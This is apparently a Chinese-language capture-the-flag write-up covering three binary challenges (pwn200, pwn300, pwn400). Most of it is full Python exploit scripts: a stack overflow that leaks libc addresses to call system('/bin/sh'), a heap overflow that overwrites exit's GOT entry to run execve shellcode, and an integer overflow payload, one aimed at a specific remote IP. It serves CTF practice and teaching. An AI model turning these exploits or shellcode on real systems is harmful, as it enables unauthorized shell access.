



pwn
==========

pwn200
-----------
	pwn200的溢出点十分明显，可以直接覆盖返回地址

	但是pwn200没有给libc，主办方表示不需要libc，想半天没想到有什么特殊的方法。
	所以就用了一种笨办法，先读出read的地址，大概估算出libc的起始地址，接着利用system函数的机器码，定位到system函数，利用相同的办法，在libc中定位出/bin/sh字符串位置，最后得到执行

	from zio import *
	import time
	fp=open('log','w')
	host='localhost'
	io=zio((host,5555))
	#time.sleep(10)
	io.read_until('!\n')
	io.write('s'*0x70+l32(0x0804855A)+l32(0x1)+l32(0x804A004)+l32(0x4))
	temp=io.read(0x4)
	address=ord(temp[0])+ord(temp[1])*(16**2)+ord(temp[2])*(16**4)+ord(temp[3])*(16**6)
	ref=0xd9660
	address-=ref
	io.write('s'*0x70+l32(0x0804855A)+l32(0x1)+l32(address)+l32(0x100000))
	point='\x53\x83\xec\x08\x8b\x44\x24\x10\xe8\xde\x4d\x0e\x00\x81\xc3\x93\x7c\x16\x00\x85\xc0\x74\x09\x83\xc4\x08\x5b\xe9\xb0\xfa\xff\xff\x8d\x83\xb1\x71\xfb\xff\xe8\xa5\xfa\xff\xff\x85\xc0\x0f\x94\xc0\x83\xc4\x08\x0f\xb6\xc0\x5b'
	temp1=io.read_until(point)
	temp3=io.read(0x100000-len(temp1))
	length=len(temp1)-len(point)
	system_address=address+length
	bash_ref='\x2f\x62\x69\x6e\x2f\x73\x68\x00'
	io.write('s'*0x70+l32(0x0804855A)+l32(0x1)+l32(address)+l32(0x300000))
	temp2=io.read_until(bash_ref)
	bash_address=address+len(temp2)-len(bash_ref)
	fp.write(hex(bash_address)+'\n')
	io.write('s'*0x70+l32(system_address)+l32(0x1)+l32(bash_address))

	io.interact()

	result:

pwn300
----------
	pwn300在delete的时候会直接报段错误，其相关的汇编代码显示，程序执行的时候会错位2格。分析了create的代码后，我们知道这个heap的结构。

	在edit中可以直接指定type，所以出现溢出，可以修改相邻节点的数据。
	利用这个，在delete函数中，可以写入任意内存。
	现在，我们可以修改exit函数的got表，修改到一开始申请的堆上。接着在堆上放shellcode。
	
	from zio import *
	import time
	host='133.130.90.210'
	io=zio((host,6666))
	io.read_until('Choice:\n')

	io.write('1'+'\n')
	io.read_until('Girl:'+'\n')
	io.write('0'+'\n')
	io.read_until('Choice:\n')
	io.write('1'+'\n')
	io.read_until('Girl:\n')
	io.write('0\n')

	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('a'*0x70+l32(0)+l32(0)+l32(0))

	io.read_until('Choice:\n')
	io.write('2\n')
	io.read_until('delete:\n')
	io.write('1\n')
	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('a'*0x74)
	io.read_until('Choice:\n')
	io.write('4\n')
	io.read_until('print:\n')
	io.write('0\n')
	temp=io.read(0x78)

	address=ord(temp[-1])*(16**6)+ord(temp[-2])*(16**4)+ord(temp[-3])*(16**2)+ord(temp[-4])
	print hex(address)

	payload_address=address+0xc
	exit_address=0x804b01c-0x8
	shellcode='\x31\xc0'+'\x50'+'\x68\x2f\x2f\x73\x68'+'\x68\x2f\x62\x69\x6d'+'\x8a\x44\x24\x03'+'\xfe\xc0'+'\x88\x44\x24\x03'+'\x31\xc0'+'\x89\xe3'+'\x50'+'\x53'+'\x89\xe1'+'\x31\xd2'+'\xb0\x0b'+'\xcd\x80'
	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('a'*0x70+l32(0x300))

	io.read_until('Choice:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('0\n')
	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write(shellcode+'\x90'*(0x70-len(shellcode))+l32(exit_address)+l32(payload_address)+l32(0))
	io.read_until('Choice:\n')
	io.write('5\n')
	io.interact()

	result:

pwn400
-----------
	pwn400是个整型溢出

	exp:

	from zio import *
	import time

	host='localhost'
	io=zio((host,8888))
	#time.sleep(10)
	io.readline()
	io.write('s'*90+'PK\x01\x02'+' '*0x18+'\xff\xff'+' '*0x10+'s'*12)
	print '\n'
	io.interact()

	result:

